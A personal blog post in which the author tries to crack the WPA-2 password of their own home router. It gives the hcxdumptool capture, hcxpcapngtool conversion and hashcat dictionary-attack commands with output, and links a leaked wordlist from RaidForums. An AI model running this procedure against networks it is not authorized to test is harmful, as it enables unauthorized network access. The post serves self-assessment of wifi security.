 ```yaml
---
title: "2022 07 12 Wifi Hacking"
date: 2022-07-12T16:30:43+01:00
tags:
    - Hacking
category: 
    - blog
keywords:
    - Hacking
    - Wifi
    - Security
---
```



## Prelude

Everywhere online, i have heard that wifi was insecure.

Posts talking about WEP and WPA being insecure. WPA-2 being better but still flawed.
I have decided to try and hack my own wifi router to see whether it really is insecure

### Setup

I am using the tp-link archer VR600 v2 as my router with WPA-2 wifi encryption.
I'll be executing my attack from my Arch Linux Laptop

## Hacking my own wifi

After looking around online, I've discovered the hashcat [cracking wpawpa2 wiki article](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
and I'll be following along as a guide.

As I went along, I worked on a script for hacking my wifi to allow for easy re-execution

### Disabling wifi and and enabling the wifi snooper

```bash
#!/usr/bin/env bash

# Disable wifi
sudo systemctl stop wpa_supplicant
# start monitor tool
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15
# Start wifi
sudo systemctl start wpa_supplicant
```

Enabling wifi and scanning for packets was quite simple.
All you had to do, is install `hcxdumptool` and run the aforementioned commands.
It took roughly 10-15 mins till a `PMKID`or `EAPOL MESSAGE` packet was detected on the network

once the a packet has been found, you can extract the hash of your wpa2 wifi password.

```bash
# Convert traffic
hcxpcapngtool -o hash.hc22000 dumpfile.pcapng
```

The hash is a `WPA-PBKDF2-PMKID+EAPOL` according to the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

This hash would be vunrable to a veriety of different attack methods:

- Dictionary attack
- Brute-Force attack
- Rule-based attack

I will be attempting a dictionary attack as it would execute in the fastest time

### hashcracking attempt 1

After installing `hashcat` and `opencl` in accordance with [the arch wiki](https://wiki.archlinux.org/title/GPGPU)
I started my first attempt with cracking the hash.

I downloaded a simple [wordlist](https://wpa-sec.stanev.org/dict/cracked.txt.gz) and attempted my first crack
Unfortunatly, I immediately came across an error.

```bash
$ hashcat -m 22000 hash.hc22000 cracked.txt.gz

resulted in this error;
clBuildProgram(): 
    CL_OUT_OF_HOST_MEMORY * Device #1: Kernel /usr/share/hashcat/OpenCL/shared.cl build failed.
```

After an hour of frantic googling online, i finally decided to restart my system and it immediately worked. :grimacing:

```bash
$ hashcat
hashcat (v6.2.5) starting

...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Dictionary cache built:
* Filename..: ./cracked.txt.gz
* Passwords.: 368163
* Bytes.....: 3992189
* Keyspace..: 368163
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.hc22000
Time.Started.....: Tue Jul 12 18:20:18 2022 (9 secs)
Time.Estimated...: Tue Jul 12 18:20:27 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./cracked.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    42026 H/s (0.48ms) @ Accel:16 Loops:32 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests
Progress.........: 368163/368163 (100.00%)
Rejected.........: 0/368163 (0.00%)
Restore.Point....: 368163/368163 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: kunanesenanuk -> leprechaun6
Hardware.Mon.#1..: N/A

...
```

Sadly this basic dictionary attack failed. This tells me that as long as you have a complicated enough password

### hashcracking attempt 2

After the unsuccessful dictionary attack, i decided to get a bigger and better wordlist.
I went with the [rockyou2021.txt from kys234 on RaidForums](magnet:?xt=urn:btih:JEQMEEFTBXT35RJ3GUTGXU7HP3HBU5P6&dn=rockyou2021.txt%20dictionary%20from%20kys234%20on%20RaidForums&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A6969%2Fannounce).
This is a massive overkill wordlist and after waiting hours for the download+decompressing.

Once finished, the wordlist was around 92GB and roughly 8 billion words long.

Rather than wait for a hashcat to go though the entire wordlist, i grep-ed the wordlist for my wifi password.
After 3 mins, the command resulted in nothing. This seams to show that my wifi password is secure.

## Conclusion

It seams to me that WPA-2 isnt actually as insecure as it would people online would lead you to believe.
As long as you have a secure enough password, it shouldnt be a simple processs hacking into someones WPA-2 wifi network.

Of course, ive only explored one wifi hacking method so far and im aware there are plenty of other methods
